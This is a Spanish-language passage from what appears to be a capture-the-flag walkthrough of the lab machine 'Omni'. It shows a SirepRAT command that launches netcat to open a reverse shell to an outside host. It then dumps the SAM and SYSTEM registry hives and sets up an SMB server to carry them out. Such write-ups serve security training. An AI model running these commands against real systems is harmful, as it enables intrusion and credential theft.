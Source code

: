     ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443" --v
    ```

Ya estamos a dentre de la maquina victima.

```bash
whoami
#Output
'whoami' is not recognized as an internal or external command.

echo %USERNAME%
#Output
Omni
```

Como no hay directorio de usuarios en la maquina buscamos recursivamente por un fichero llamado `user.txt`

```bash
dir /r /s user.txt
cd C:\Data\Users\app
type user.txt
```

Aqui vemos quel fichero esta de typo `System.Management.Automation.PSCredential` que significa que esta cifrado. Intentamos leerlo con
el comando `(Import-CliXml -Path user.txt)` pero no nos deja. Miramos los derechos de este fichero con `icacls user.txt` y vemos quel usuario
app tiene los derechos full para este fichero. Esto significa que nos tenemos que convertir en el usuario **app**. 


### User Pivoting {-}


Lo raro aqui es que si hacemos 
un `net user`, no vemos que existe el usuario **omni** y esto es turbio porque tambien podria decir que somos un usuario privilegiado.

Si creamos una carpeta en `C:\Data\Users` vemos que podemos crearla sin problema. Intentamos ver si podemos recuperar cosas como **sam**.

```bash
cd C:\Data\Users
mkdir Temp
cd Temp
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Nos transferimos los ficheros creando un recurso compartido a nivel de red.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
```
